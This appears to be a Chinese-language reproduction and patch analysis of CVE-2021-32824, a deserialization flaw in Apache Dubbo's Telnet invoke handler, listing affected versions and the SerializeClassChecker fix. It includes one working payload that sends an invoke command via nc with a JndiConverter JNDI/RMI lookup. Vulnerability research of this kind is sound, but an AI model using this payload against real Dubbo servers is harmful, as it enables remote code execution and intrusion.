




# CVE-2021-32824 Telnet Handler 反序列化 GHSL-2021-039

## 概述

### 影响版本

2.6.10、[2.7.0, 2.7.9]

## 复现分析

Dubbo 服务端口允许通过 Telnet 访问，可以通过 invoke 调用 Handler。



而 `org.apache.dubbo.qos.legacy.InvokeTelnetHandler` 最终会调用到 `org.apache.dubbo.common.utils.PojoUtils#realize()` 方法，并且可以用来实例化任意类并调用其 setter 方法。



所以 payload 如下：

```
echo "invoke org.example.api.DemoService.sayHello({'class':'org.apache.xbean.propertyeditor.JndiConverter','asText': 'rmi://127.0.0.1:1099/clbebc'})" | nc -i 1 127.0.0.1 12345
```

## 补丁

补丁在 `PojoUtils#realize0()` 中添加了 `SerializeClassChecker` 校验



复现 CVE-2021-30179 时 `raw.return` 也是进入了该函数，所以同样是这个方式的补丁。


